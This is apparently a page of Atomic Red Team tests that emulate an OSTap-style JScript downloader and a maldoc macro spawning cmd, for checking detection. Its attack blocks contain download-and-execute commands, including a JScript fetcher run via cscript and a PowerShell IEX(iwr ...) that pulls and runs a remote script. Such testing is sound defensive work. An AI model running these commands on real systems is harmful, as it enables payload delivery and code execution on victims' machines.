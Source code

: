 **Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| script_file | File to execute jscript code from | Path | %TEMP%&#92;OSTapGet.js|
| file_url | URL to retrieve file from | Url | https://128.30.52.100/TR/PNG/iso_8859-1.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo var url = "#{file_url}", fso = WScript.CreateObject('Scripting.FileSystemObject'), request, stream; request = WScript.CreateObject('MSXML2.ServerXMLHTTP'); request.open('GET', url, false); request.send(); if (request.status === 200) {stream = WScript.CreateObject('ADODB.Stream'); stream.Open(); stream.Type = 1; stream.Write(request.responseBody); stream.Position = 0; stream.SaveToFile(filename, 1); stream.Close();} else {WScript.Quit(1);}WScript.Quit(0); > #{script_file}
cscript //E:Jscript #{script_file}
```

#### Cleanup Commands:
```cmd
del #{script_file} /F /Q >nul 2>&1
```





<br/>
<br/>

## Atomic Test #3 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders. Upon execution, CMD will be launched.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```
